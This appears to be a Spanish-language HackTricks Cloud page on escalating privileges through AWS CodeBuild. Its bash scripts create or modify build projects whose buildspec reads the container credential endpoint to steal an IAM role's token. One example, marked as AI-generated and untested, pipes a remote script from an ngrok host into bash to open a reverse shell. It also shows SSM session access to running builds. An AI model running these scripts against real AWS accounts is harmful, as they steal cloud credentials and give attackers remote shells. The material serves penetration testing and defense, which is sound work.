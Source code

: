 # AWS - Codebuild Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## codebuild

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Un atacante con los permisos **`iam:PassRole`, `codebuild:CreateProject` y `codebuild:StartBuild` o `codebuild:StartBuildBatch`** podría **escalar privilegios a cualquier rol de IAM de codebuild** creando uno en ejecución.

{% tabs %}
{% tab title="Ejemplo1" %}
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

JSON="{
    \"name\": \"codebuild-demo-project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Crear proyecto
aws codebuild create-project --cli-input-json file://$REV_PATH

# Compilarlo
aws codebuild start-build --project-name codebuild-demo-project

# Esperar 3-4 minutos hasta que se ejecute
# Luego se pueden acceder a los registros en la consola para encontrar el token del rol de AWS en la salida

# Eliminar el proyecto
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}

{% tab title="Ejemplo2" %}
{% code overflow="wrap" %}
```bash
# Generado por IA, no probado
# Crear un archivo buildspec.yml con el comando de shell inverso
echo 'version: 0.2
phases:
  build:
    commands:
      - curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Crear un nuevo proyecto CodeBuild con el archivo buildspec.yml
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Iniciar una compilación con el nuevo proyecto
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**Impacto potencial:** Privesc directo a cualquier rol de AWS codebuild.

{% hint style="warning" %}
En un **contenedor Codebuild** el archivo `/codebuild/output/tmp/env.sh` contiene todas las variables de entorno necesarias para acceder a las **credenciales de metadatos**.

Este archivo contiene la **variable de entorno `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** que contiene la **ruta de URL** para acceder a las credenciales. Será algo como esto `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

Agrega eso a la URL **`http://169.254.170.2/`** y podrás volcar las credenciales del rol.

Además, también contiene la **variable de entorno `ECS_CONTAINER_METADATA_URI`** que contiene la URL completa para obtener **información de metadatos sobre el contenedor**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Al igual que en la sección anterior, si en lugar de crear un proyecto de compilación se puede modificar, se puede indicar el rol de IAM y robar el token.

```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Necesitas indicar el nombre del proyecto que deseas modificar
JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```

**Impacto potencial:** Privesc directo a cualquier rol de AWS codebuild.

### ssm

Teniendo **suficientes permisos para iniciar una sesión de ssm** es posible **entrar en un proyecto Codebuild** que se está construyendo.

El proyecto de codebuild necesitará tener un punto de interrupción:

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

Y luego:

```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```

Para obtener más información, [**consulte la documentación**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>